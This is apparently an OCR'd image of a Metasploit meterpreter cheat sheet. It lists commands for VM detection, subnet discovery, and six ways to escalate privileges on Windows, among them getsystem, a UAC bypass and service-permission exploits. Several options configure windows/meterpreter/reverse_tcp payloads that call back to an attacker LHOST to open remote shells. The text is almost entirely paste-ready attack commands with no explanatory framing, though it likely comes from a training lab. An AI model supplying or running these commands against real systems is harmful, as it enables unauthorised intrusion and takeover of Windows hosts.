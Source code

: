  
meterpreter> run post/windows/gather/checkvm
 
 
meterpreter> run get_local_subnets
 
 
 
********************************** Escalate privileges and get hashes **********************************
 
 
meterpreter> use priv
 
 
--Option 1: GetSystem
meterpreter> getsystem
 
--Option 2:
meterpreter > run post/windows/escalate/getsystem
 
--Option 3:
meterpreter> background
back
use post/windows/escalate/droplnk
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.153.164                                            (Make sure you change this to your ubuntu ip address)
set LPORT 1234
exploit
 
--Option 4:
use exploit/windows/local/bypassuac
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.153.164                                            (Make sure you change this to your ubuntu ip address)
set LPORT 12345
exploit
 
--Option 5:
use exploit/windows/local/service_permissions
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.153.164                                            (Make sure you change this to your ubuntu ip address)
set LPORT 5555
exploit
 
--Option 6:
use exploit/windows/local/trusted_service_path
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.153.164                                            (Make sure you change this to your ubuntu ip address)
set LPORT 4567
exploit
 